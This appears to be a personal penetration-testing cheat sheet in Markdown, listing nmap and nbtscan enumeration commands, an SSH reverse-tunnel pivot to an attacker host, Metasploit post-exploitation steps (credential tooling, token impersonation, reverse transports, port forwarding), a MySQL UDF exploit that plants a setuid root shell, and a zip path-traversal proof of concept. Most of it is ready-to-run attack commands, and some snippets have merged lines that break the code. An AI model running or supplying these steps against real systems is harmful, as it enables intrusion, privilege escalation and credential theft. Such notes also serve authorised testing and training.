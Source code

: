 
# Common 

- [CyberChef](https://gchq.github.io/CyberChef) - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis
- [OSINT Framework](https://osintframework.com/)

## Enumeration

### Nmap
```
$pwd/tools/general/onetwopunch.sh -t targets.txt -i tap0 -n '-n -vvv -T4  -sV -sC -A --osscan-guess --version-all -oA "$pwd/_output/$(target_ip)/full_tcp_unicorn_nmap" --script=*vuln*'
```
```
nmap -n -vvv -T4 -sV -sC -A --osscan-guess --version-all -p- -oA "$pwd/_output/$(target_ip)/full_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_quick_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_formated_tcp_nmap" --stylesheet https://raw.githubusercontent.com/snovvcrash/snovvcrash.github.io/master/reports/nmap/nmap-bootstrap.xsl $target
```

### NBTScan
```
nbtscan $target_ip/24 | tee $pwd/_output/$(target_ip)/nbtscan.txt
```

### nping
```
nping –tcp -p 80 -c 4 –flags SYN $target_ip
```
```
nping –tcp-connect -c 1 -p 3389 $target_ip
```

## Pivoting 

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

## Docker 

File path
```
docker_path=/proc/$(docker inspect --format <ContainerID>)/root
```

Transfer:
```
docker save uzyexe/nmap -o nmap.tar
# ...
docker load -input nmap.tar
docker run --network=br0 -it --rm uzyexe/nmap 
```

Check if in Docker guest:
```
cat /proc/self/cgroup | grep docker
```

## Metasploit
```
set AutoRunScript multi_console_command -r $pwd/payloads_linux/automigrate.rc
```
```
set AutoRunScript post/windows/manage/migrate
```
```
set AutoRunScript windows/gather/enum_logged_on_users
```
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
```
transport add -t reverse_tcp -l 10.11.0.4 -p 5555
transport list
```
```
load powershell
load kiwi
```
```
route add 192.168.1.0/24 11
route print
use multi/manage/autoroute
use auxiliary/server/socks4a
portfwd add -l 3389 -p 3389 -r 192.168.1.110
```
```
use incognito
list_tokens -u
impersonate_token example\\Administrator
```

## MySQL

46249
```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

Enable logs:
```
sudo sed -i "s/#general_log/general_log/g" /etc/mysql/my.cnf 
sudo sed -i "s/#general_log/general_log/g" /etc/mysql/mysql.conf.d/mysqld.cnf
sudo sed -i "s/#general_log/general_log/g" /etc/mysql/conf.d/mysqld.cnf
```

Restart
```
sudo systemctl restart mysql
```

Tail logs
```
sudo tail –f /var/log/mysql/mysql.log
```
## postgresql

Enable logs:
```bash
echo "log_statement = 'all'" >> postgresql.conf  #none, ddl, mod, all. written to pgsql_log
```

## Ping check 
```
tcpdump -i tun0 icmp 
```

## Python Snippets 

Create ZIP file"
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def build_zip(): f = StringIO()
  z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
  z.writestr('poc/poc.txt', 'poc')
  z.writestr('../../../../../../../../../../tmp/poc.txt', 'poc')
  z.close()
  zip = open('poc.zip','wb')
  zip.write(f.getvalue())
  zip.close()

build_zip()
```

HTTP Request
```python
import sys
import requests
import urllib3 urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
    if len(sys.argv) != 2:
        print "[+] Usage   : %s <target>" % sys.argv[0] 
        print "[+] Example : %s target" % sys.argv[0]
        sys.exit(1)

    target = sys.argv[1]
    param = "example"
    rsp = requests.get('https://%s:8080/example' % target, params='test=%s' % param, verify=False)
    print rsp.text
    print rsp.headers

if __name__ == '__main__': 
    main()
```